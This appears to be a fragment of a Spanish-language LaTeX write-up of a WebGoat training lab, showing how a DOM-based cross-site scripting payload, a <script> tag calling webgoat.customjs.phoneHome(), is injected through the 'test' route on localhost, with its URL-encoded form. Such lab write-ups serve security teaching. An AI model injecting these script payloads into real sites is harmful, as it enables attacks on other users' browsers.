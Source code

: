 \documentclass[12pt,oneside,a4paper]{book}
\begin{document}
\begin{enumerate}
\begin{enumerate}
        \vspace{1em}

        \begin{verbatim}
webgoat.customjs.phoneHome()
        \end{verbatim}

        \hspace{20pt}
        Se toma la URL original del servicio objetivo

        \begin{verbatim}
http://localhost:8080/WebGoat/start.mvc#
        \end{verbatim}

        y se agrega el argumento \textit{test} encontrado en el módulo 10. A esto se le incorpora como código Js la función nombrada anteriormente mediante script, generando la siguiente URL:

        \vspace{1em}

        \begin{verbatim}
http://localhost:8080/WebGoat/start.mvc#test/<script>webgoat.
customjs.phoneHome()</script>
        \end{verbatim}

        la cual al ejecutarse en el navegador queda de la siguiente forma:

        \vspace{1em}

        \begin{verbatim}
http://localhost:8080/WebGoat/start.mvc#test/%3Cscript%3Ewebgoat.
customjs.phoneHome()%3C%2fscript%3E
        \end{verbatim}
        
        y arroja el siguiente resultado:
        
        \newpage
        
        \begin{center}
            \includegraphics[width=12cm]{img/xss10.png}
            

\end{center}
\end{enumerate}
\end{enumerate}
\end{document}
